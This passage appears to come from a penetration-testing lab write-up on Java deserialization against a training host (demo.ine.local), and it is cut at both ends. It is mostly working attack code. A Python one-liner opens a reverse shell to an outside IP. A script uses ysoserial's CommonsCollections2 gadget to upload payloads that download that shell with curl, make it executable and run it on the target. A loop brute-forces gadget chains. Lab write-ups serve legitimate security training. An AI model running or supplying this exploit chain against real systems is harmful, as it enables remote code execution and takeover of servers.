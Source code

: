 ```python
'Myfaces1',
'Myfaces2',
'ROME',
'Spring1',
'Spring2',
'URLDNS',
'Vaadin1',
'Wicket1'
]
for payload in payloads:
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2)
```
With this, we can pinpoint that the correct payload is CommonsCollections2, thus we can build the full python exploit.
We create a python reverse shell and host it on the machine:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.78.216.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Finally we put together the exploit which in three turns will send and deserialize a payload to:
- download the reverse shell
- makes it executable 
- trigger it
```python
import requests
import time
import threading
import os
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payload = 'CommonsCollections2'
commands = [
'"curl http://192.78.216.2:8888/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]
for command in commands:
    os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2)
```
We simply run it and we get back a reverse shell.
NOTE: Again, the full exploit chain needed a script, as the file needs to be unserialized as fast as possible and doing it manually could be to slow.
## Java - Lab 2
We are faced with a Jenkins instance which is vulnerable to deserialization (ver 1.566) via the commons collection library.
We thus get this exploit: